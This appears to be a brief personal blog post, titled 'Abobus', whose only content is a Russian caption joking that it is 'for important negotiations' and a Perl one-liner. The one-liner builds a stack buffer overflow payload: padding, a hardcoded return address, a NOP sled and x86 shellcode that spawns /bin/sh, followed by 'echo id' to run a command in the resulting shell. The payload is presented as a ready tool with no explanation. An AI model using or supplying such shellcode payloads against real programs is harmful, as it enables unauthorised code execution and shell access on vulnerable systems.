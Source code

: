 ```yaml
---
title: "Abobus"
date: 2020-04-03 22:58:44
draft: false
---
```


На случай важных переговоров
(perl -e 'print "A" x 76 . pack("I", 0xbffff780) . "\x90" x 60 . "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4a\x41\x41\x41\x41\x4b\x4b\x4b\x4b"'; echo id)
